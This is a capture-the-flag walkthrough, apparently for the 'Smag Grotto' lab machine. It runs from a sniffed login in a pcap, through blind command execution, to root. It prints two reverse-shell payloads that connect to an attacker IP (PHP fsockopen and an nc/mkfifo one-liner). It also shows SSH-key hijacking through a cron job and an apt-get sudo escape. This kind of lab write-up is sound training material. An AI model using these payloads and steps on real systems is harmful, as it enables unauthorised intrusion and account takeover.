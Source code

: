 # recon
## nmap
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## gobuster
- /mail/ : you will find `.pcap` file, download it and open it using Wireshark. 

As you can see, there is a http traffic with `POST /login.php`. The request body contain a user cerdential. 
```
POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

username=helpdesk&password=cH4nG3M3_n0w
HTTP/1.1 200 OK
Date: Wed, 03 Jun 2020 18:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```
You can see that the password was correct+working since the HTTP response was 200 OK. Lastly, the request was sent to `development.smag.thm` which mean that we need to add this host name to our `/etc/hosts` to be able to access this site.


```console
echo "<ip> development.smag.thm" >> /etc/hosts
```
There are a few .php files on the site, `admin.php` and `login.php`. You will be redirected to `admin.php` after you login with the cerdential that we got from `.pcap` file


`admin.php` allows us to excute command on the server. but there is no way that we could see the result/output of the executed command. 


To check if `admin.php` works, we can `ping` to ping back to our Kali. On Kali we use tcpdump and listen for ping packets. if we got something on tcpdump then `admin.php` is working

on victim server
```console
$ ping <kali ip> -c 2
```
on kali
```console
$ sudo tcpdump -i tun0 icmp
```
# Foothold as www-data
It works!!! so now time to get foothold by excuting reverse shell! there are many payload which you can find on this [repo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)


Some payloads didnt works. to check if it work or the payload is executed properly you can run
```
$ <payload> && ping <kali ip> -c 2
```
Megamos came up with this Idea, What it would do is, if the payload is sucsesfully then it will ping back to us. In this way we can tell if it works or not. Or you simply just try the payload and see if it connenct back to you netcet listner.

After many tries, these are 2 payload that we tried and work
```
php -r '$sock=fsockopen("10.8.14.151",6969);exec("/
bin/sh -i <&3 >&3 2>&3");'
```

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.14.151 6969 > /tmp/f
```

# Foothold as Jake
I tried `sudo -l` for list user's privileges or check aspecific command, but it asked for www-data's password so we need to look for another way. I remember that port 22 is open, I ran`locate *.pub` look for a ssh public key.


Then I ended up checking `crontab` and BINGO!!!
```console
$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```
The last cornjob looks really interesting, it `cat /opt/.backups/jake_id_rsa.pub.backup` and feed into `/home/jake/.ssh/authorized_keys`. and it does it every 1 min. So this mean that the `authorized_keys` is the content of `jake_id_rsa.pub.backup`

So there are 2 things we could do here,
1. copy the content of `jake_id_rsa.pub.backup` and create a new key on our kali with that content
2. create key on our kali and copy the content and replace the content of `jake_id_rsa.pub.backup` with our public key that we generate.
```console
$ cd /opt/.backups/
$ echo "my ssh key (id_rsa.pub)" > jake_id_rsa.pub.backup
```
You can pick, But just know that there is a draw back to the 2nd way to gain access as Jake. Jake original key would be gone and REAL Jake will not be able to connect to his server again.. which is bad right? since the victim will notice that there is something odd here. But you pick

Now ssh to victim server with ssh key!
```
kali@kali:~$ ssh jake@smagrotto.thm -i .ssh/id_rsa
The authenticity of host 'smagrotto.thm (10.10.243.223)' can't be established.
ECDSA key fingerprint is SHA256:MMv7NKmeLS/aEUSOLy0NbyGrLCEKErHJTp1cIvsxnpA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'smagrotto.thm,10.10.243.223' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020
jake@smag:~$ cat user.txt # get user flag
```
# Root
So we will repeat the same process as when we try to gain access as Jake. Start with `sudo -l`
```console
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```
Seem like we are allow to run `/usr/bin/apt-get` as root and no password is required, This is perfect since we do not know Jake password. So let check [GTFObins](https://gtfobins.github.io/gtfobins/apt-get/), and this is our payload `sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh`

what `APT::Update::Pre-Invoke::={"your-command-here"}` does is, It allow us to execute a command before the **update** process is excute. To understand more you can read [this](https://unix.stackexchange.com/questions/204414/how-to-run-a-command-before-download-with-apt-get). In this case we are forcing `apt-get update` to execute `/bin/sh` before updating the server
```console
jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# whoami
root
# cat /root/root.txt
```
GL and happy hacking